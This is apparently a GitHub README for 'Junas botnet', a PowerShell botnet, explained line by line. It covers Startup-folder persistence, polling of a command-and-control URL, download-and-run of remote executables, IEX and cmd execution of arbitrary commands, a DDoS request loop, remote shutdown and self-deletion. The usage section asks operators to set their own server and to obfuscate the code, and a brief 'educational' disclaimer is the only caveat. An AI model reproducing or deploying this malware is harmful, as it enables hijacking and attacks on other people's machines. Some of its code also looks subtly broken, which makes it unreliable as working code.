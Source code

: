## Junas botnet
#### Legal #
This is an educational script and should not be used for illegal/unethical actions against machines you do not own/have permission to infect

*Copyright (c) 2021 Pokesi All Rights Reserved.*
### How it works **step by step**
Syntax used:
`Line of code/variable` - Explanation
... `Line of code` - Explanation [not required]
...... `Line of code` - Explanation [only used for branches]
... `}` - Ends the branch

`$userprof = $env:USERPROFILE;` - Gets the user's directory (e.g. C:/Users/JohnDoe/)
`$startUpFolder = "$userprof\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup";` - `$startUpFolder` is set to the user's startup directory.
`$botnetCode` - `$botnetCode` is set to the botnet code. Keep in mind that the `.ps1` file is just an installer for the botnet, the actual thing is in this variable. The following is `$botnetCode`.
... `Add-Type -AssemblyName System.IO.Compression.FileSystem;` - Adds the type used to extract `.zip` files. Used when extracting downloaded files.
... `$wc = [System.Net.WebClient]::new();` - Starts a WebClient instance in variable `$wc`. Used for downloading files. An alternative may be curl.exe, but is not tested.
... `$commandcontrolserver = "https://yoursite.com/server.txt";` - Sets `$commandcontrolserver` to https://yoursite.com/server.txt, which is the file that has the command for the botnet.
... `$wc.DownloadFile("$commandcontrolserver","command.txt");` - Downloads the command and control file to command.txt. Alternative with curl.exe may be `curl.exe --output=command.txt -X GET https://yoursite.com/server.txt`, not tested.
... `$userprof = $env:USERPROFILE;` - Gets the user's directory (e.g. C:/Users/JohnDoe/)
... `$startUpFolder = "$userprof\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup";` - `$startUpFolder` is set to the user's startup directory.
... `$cmd = (Get-Content -Path "./command.txt" -TotalCount 1)` - Sets the `$cmd` variable to the first line of `command.txt`.
... `if ($cmd == "Stop") {` - Checks if `$cmd` is "Stop". This stops the botnet.
...... `exit()` - Exits PowerShell
... `}` - Ends the branch
... `elseif ($cmd -Like "Dl&Run *") {` - Checks if `$cmd` starts with "Dl&Run". This downloads a .zip file, extracts it, and runs the .exe specified. In server.txt, this should look like `Dl&Run https://fileupload.com/application.zip:application.exe`. The provided example will download `application.zip`, extract it, and run application.exe inside the extracted folder.
...... `$cmd2 = $cmd.split("Dl&Run ")[0];` - Sets `$cmd2` to the command passed to the script, but stripped of "Dl&Run"
...... `$fileToDownload = $cmd2.Split(":")[0];` - Sets `$fileToDownload` to the file the operator wants to download.
...... `try {` - PowerShell try
......... `$wc.DownloadFile("$fileToDownload","botnet.zip");` - Downloads `$fileToDownload` to `botnet.zip`
......... `cmd.exe /c "mkdir folder";` - Runs cmd.exe [command prompt] with the `/c` switch, which executes a command. In this case, `mkdir folder` is run, which makes a folder called "folder"
......... `Expand-Archive -LiteralPath "./botnet.zip" -DestinationPath "./folder"` - Extracts the downloaded file to `/folder`.
......... `Start-Process -filepath "./folder/" + ($cmd2.Split(":")[2]) + ".exe";` - Runs the file.
...... `}` - Ends the branch
... `}` - Ends the branch
... `elseif ($cmd -Like "IEX *") {` - Checks if `$cmd` starts with "IEX". If it does, it will execute the given string.
...... `$cmd3 = $cmd.split("IEX ")[0];` - Sets `$cmd3` to the command passed to the script, but stripped of IEΧ.
...... `IEX($cmd3);` - Runs the string with IEX.
... `}` - Ends the branch
... `elseif ($cmd -Like "DDoS *") {` - Checks if `$cmd` starts with "DDoS". If it does, it will make a batch file in Startup that runs constant requests of that site.
...... `$cmd4 = $cmd.split("DDoS ")[0];` - Sets `$cmd4` to the command passed to the script, but stripped of DDoS
...... `":start ; curl -X GET $ddos; goto start" | Out-File "$startUpFolder\btnet.bat" -Force` - Makes a batch file in Startup that runs constant requests of that site.
... `}` - Ends the branch
... `elseif ($cmd -Like "Cmd *") {` - Checks if `$cmd` starts with "Cmd". If it does, it will execute `cmd.exe` with the switch `/c` to execute a command.
...... `$cmd5 = $cmd.split("Cmd ")[0];` - Sets `$cmd5` to the command passed to the script, but stripped of Cmd.
...... `cmd /c "$cmd5";` - Executes `cmd.exe` with the switch `/c` to execute a command.
... `}` - Ends the branch
... `elseif ($cmd == "Shutdown") {` - Checks if `$cmd` is Shutdown. If it does, it will shutdown the machine.
...... `Stop-Computer;` - Shutdown machine
... `}` - Ends the branch
... `else {` - If nothing else works, do this.
...... `exit;` - Stops the script
... `}` - Ends the branch
... `Remove-Item -Path "./command.txt";` - Removes command.txt
`"powershell -WindowStyle hidden -Command '$botnetCode'" | Out-File "$startUpFolder\default.bat";` - Writes `$botnetCode` to a Startup file.
`Remove-Item -Path $MyInvocation.MyCommand.Source;` - Self-Destructs.
### Usage
Change https://yoursite.com/server.txt to your command and control server.
You may want to obfuscate this or add custom commands.
### Donate
|     BitCoin    | Header Two     |
| :------------- | :------------- |
| Item One       | Item Two       |
